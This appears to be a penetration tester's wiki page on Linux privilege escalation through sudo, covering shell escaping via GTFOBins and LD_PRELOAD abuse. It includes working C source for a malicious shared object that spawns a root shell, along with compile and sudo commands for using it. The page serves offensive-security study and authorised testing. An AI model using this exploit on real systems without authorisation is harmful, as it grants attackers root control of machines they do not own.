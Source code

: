 # Privilege Escalation via `sudo`

> "Super User Do." Allows a user to execute a particular command(s) with elevated permission.

---

## Current User's Allowed and Disallowed `sudo` Commands

This is a part of [[situational-awareness#Current User's Allowed and Disallowed sudo Commands|situational awareness]].

---

## `sudo` Shell Escaping

Abuse the [[situational-awareness#Current User's Allowed and Disallowed sudo Commands|current user's allowed sudo commands]] to perform actions in order to elevate privileges.

1. Determine the [[situational-awareness#Current User's Allowed and Disallowed sudo Commands|current user's allowed sudo commands]]
2. For each command, determine if it can be abused to elevate privileges:
	- If the command is standard to the Linux distribution:
		- Look them up in [GTFOBins](https://gtfobins.github.io/) to determine how to exploit it in order to elevate privileges
		- If you can't find it in [GTFOBins](https://gtfobins.github.io/), Google `$COMMAND sudo privilege escalation` and see if someone else has already disclosed how to abuse its intended functionality to elevate privileges
	- If the command **is not** standard to a Linux distribution, understand exactly what the command is doing and try to determine how you can exploit it to elevate privileges

---

## `LD_PRELOAD` Exploitation

If the [[situational-awareness#Current User's Allowed and Disallowed sudo Commands|current user's allowed sudo commands]] indicates that running `sudo` retains the environment variable [[LD_PRELOAD]], then you can use this environment variable to execute an arbitrary shared object file before the execution of one of the `sudo` command. This guarantees code execution as the target user of the `sudo` line.

1. Determine if running `sudo` retains the environment variable [[LD_PRELOAD]]

Note the following `sudo -l` output:

```bash
$ sudo -l
Matching Defaults entries for TCM on this host:
    env_reset, env_keep+=LD_PRELOAD

User TCM may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
```

The `env_keep+=LD_PRELOAD` statement is the indicator that running `sudo` retains the environment variable [[LD_PRELOAD]].

2. Stage the malicious shared object file. You can use the following source code for a shell:

```c
# tgihf.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>


void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

Compile the source code with the following:

```bash
gcc -fPIC -shared -o tgihf.so tgihf.c -nostartfiles
```

3. Run one of the current user's allowed `sudo` commands, leveraging [[LD_PRELOAD]] to pre-execute the malcious shared object file.

```bash
sudo LD_PRELOAD=$FULL_PATH_TO_SHARED_LIBRARY $SUDO_COMMAND
```

Using the above `sudo -l` output as an example:

```bash
sudo LD_PRELOAD=/home/user/tgihf.so iftop
```
